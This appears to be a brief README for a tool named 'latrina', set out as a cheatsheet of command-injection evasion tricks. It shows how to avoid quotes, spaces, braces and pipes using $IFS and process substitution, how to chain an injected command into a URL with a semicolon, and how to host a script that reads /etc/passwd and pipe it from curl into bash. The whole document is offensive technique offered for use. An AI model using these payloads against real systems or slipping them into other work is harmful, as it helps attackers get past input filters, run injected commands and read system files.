 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
#### setting string variables without quotes    
`variable=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd . -p 80`  
`curl -s http://localhost/$0 | bash`
